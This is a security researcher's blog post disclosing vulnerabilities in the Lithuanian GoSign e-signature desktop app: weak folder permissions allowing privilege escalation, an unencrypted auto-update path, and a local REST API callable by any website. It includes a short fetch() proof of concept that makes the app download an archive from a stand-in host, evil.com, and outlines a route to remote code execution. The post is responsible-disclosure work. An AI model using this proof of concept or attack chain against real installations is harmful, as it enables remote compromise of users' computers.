```yaml
---
layout:     post
title:      "Registrų centras GoSign app vulnerabilities"
date:       2020-12-30 12:00:00
categories: HackAndTell
cover:      gosign_js.png
permalink:  /en/blog/registru-centras-gosign-vulnerabilities
---
```

After reading [an article](https://sec-consult.com/blog/detail/deanonymization-of-lithuanian-e-signature-users/) about a remediated information disclosure vulnerability in [GoSign](https://www.elektroninis.lt/paruosti-kompiuteri/nid-1287) - an e-signature desktop application by the State Enterprise Centre of Registers of Lithuania (Registrų centras), I became curious if it is not vulnerable to the other attack - DNS rebinding. In this blog post I'll review what I've found and what was fixed.

[GoSign](https://www.elektroninis.lt/bylos/elektroninis_lt/Diegliai/GoSignCore.msi) installs two Windows services: GoSign and GoSignMonitor (installed by default) and GoSignUI tray application (optional feature, not installed by default). Both services start on bootup and run with highest privileges possible - LocalSystem. It doesn't matter if the user has the identity card inserted or not.

![Services](gosign_sc.png)

However, the GoSign installer erroneously grants all local users full permissions to `c:\Program Files (x86)\RCSC\GoSign` folder:

![Gosign folder permissions](gosign_acl.png)

This allows regular users to modify the `GoSign.exe` and `GoSignMonitor.exe` (or any dll they load). Since the executables files run as LocalSystem it allows for Local Elevation of Privileges (EoP). Even so, the issue may be dismissed by private users, in government institutions, where computers are usually managed by technicians and regular users have restricted permissions, this is a valuable vulnerability for EoP by malicious programs.

Instead of fixing the installer to set the correct permissions to the root folder it was attempted to fix the issue in the version 3.3.4.0 by making GoSign service to verify and fix the permissions at runtime:

![Gosign runtime ACL fix](gosign_acl_fix.png)

Firstly, it doesn't work at all, because GoSign attempts to remove an inherited permission. Also it says a lot about internal development and testing processes. Secondly, attempting to make such privileged operations at runtime doesn't make it easier to change the existing GoSign architecture to stop running its services as LocalSystem. All in all, the EoP is still not fixed.

GoSignMonitor is a helper service that calls [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt) and if a new version is available the service downloads [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip) and extracts the zip into the installation directory. Yes, over unencrypted connection as LocalSystem. And it does it every 10 minutes. While less likely in case of an office user, in a private user case it opens the computer to a Remote Code Execution (RCE) for an attacker capable of intercepting the unencrypted traffic like in public WIFI network. The GoSign service is stopped before the zip extraction and restarted afterwards. Since the attacker-controlled executable is started as LocalSystem it means a complete computer takeover.

It was attempted to address the issue. The newer version of GoSignMonitor checks for updates and downloads them over HTTPS. Still, because of a mistake the automatic update process extracts the new version of the executable into the wrong folder: `C:\Program Files (x86)\RCSC\GoSign\GoSignMonitor\GoSignMonitor\GoSignMonitor.exe`. This way the existing users of GoSign are left vulnerable and need to manually uninstall the old version and install the version 3.3.4.0 themselves.

Overall, the automatic update architecture of GoSign is overengineered and convoluted. Each service kills and updates the other one. Instead of downloading and starting the new version of GoSign installer they download specific zip files that contain a selected set of executable files (i.e. without all .NET Core framework dlls they depend on) and overwrite the old files with the extracted ones. The failure to use the standard installer for this task leads to creation of GoSignUI folder with some files in it even if the feature wasn't installed to begin with. Also the fact the update is done silently without an acknowledgment means that by breaking into `downloads.registrucentras.lt` ten minutes later attackers could effectively compromise all computers with GoSign installed.

GoSign is the other installed service that runs a local web server on TCP ports 8000 and 60000. The server exposes the following REST API:

```
GET  /nexu-info
POST /rest/certificates
GET  /rest/certificates
POST /rest/sign
POST /rest/loadApp
GET  /diagnostics
POST /certs
GET  /certs
POST /multisign
POST /ping
GET  /rest/ping
```

Before version 3.2.2.0 a malicious JavaScript on any web page could call the local server and read its response. In v3.2.2.0 to mitigate the issue the following Cross-Origin Resource Sharing (CORS) list is hardcoded into the service:

```
https://ws.gosign.lt
https://wstest.gosign.lt
https://www.elektroninis.lt
https://test.elektroninis.lt
https://dev.elektroninis.lt
https://mati.registrucentras.lt
https://apptest4.kada.lt
https://appdevel4.kada.lan
```

The common misconception about CORS is that it allows requests to the server only from the selected list. What it really does, it instructs the browser to allow a web page from a selected origin to _**read**_ the server response. Any web page is still able to issue a [simple request](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests) to the web server. The CORS list fixed the issue where malicious pages could read personal information from the inserted identity card. Still, in v3.2.2.0 it was possible to blindly call any of the API.

The `/rest/loadApp` API commands GoSignUI to automatically download a file from the specified `url`, extract it if it is an archive and open in AutoDesk TrueView 2018 or AutoDesk DesignReview 2018 viewer. Proof of Concept:

```html
<script>
  fetch("https://localhost:8000/rest/loadApp", {
    method: 'POST',
    body: 'url=https://evil.com/evil.zip'
  })
</script>
```

An attacker could:

* Force GoSign users to download a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb).  
* Achieve RCE by using a specially crafted DWG or DWF file. It is as simple to exploit one of the [known vulnerabilities in AutoDesk DesignReview 2018](https://www.cvedetails.com/vulnerability-list/vendor_id-3855/product_id-15106/year-2019/opec-1/Autodesk-Design-Review.html) as zipping malicious DWF and DLL files into the same archive. Since GoSignUI runs as non-privileged process that should reduce the RCE impact. Nevertheless, because of the improper installation folder permissions it is easy to escalate to LocalSystem.  

My recommendation was to implement a `Origin` header check on the server side, but in the version 3.3.4.0 `/rest/loadApp` verifies `Referer` header instead. This is not ideal since the header may be not present, but it should be OK as long as the server rejects requests without `Referer`. Both `Referer` and `Origin` are [forbidden headers](https://developer.cdn.mozilla.net/en-US/docs/Glossary/Forbidden_header_name), i.e. are guaranteed to be not spoofable by malicious sites. However, the check wasn't implemented as .NET Core Middleware, so it is still possible for any web site to call the other API endpoints.

### Timeline

2020.09.25-29 - Contacted [info@gosign.lt](mailto:info@gosign.lt), [info@elektroninis.lt](mailto:info@elektroninis.lt), [info@registrucentras.lt](mailto:info@registrucentras.lt) asking for the security contract.  
2020.10.01 - A report was sent to [pagalba@elektroninis.lt](mailto:pagalba@elektroninis.lt).  
2020.10.01 - The report was acknowledged.  
2020.12.21 - Received an email that v3.3.4.0 with the fixes was released.  
2020.12.28 - Vendor was notified about the not fixed issues.  
2020.12.30 - Disclosure deadline reached.  
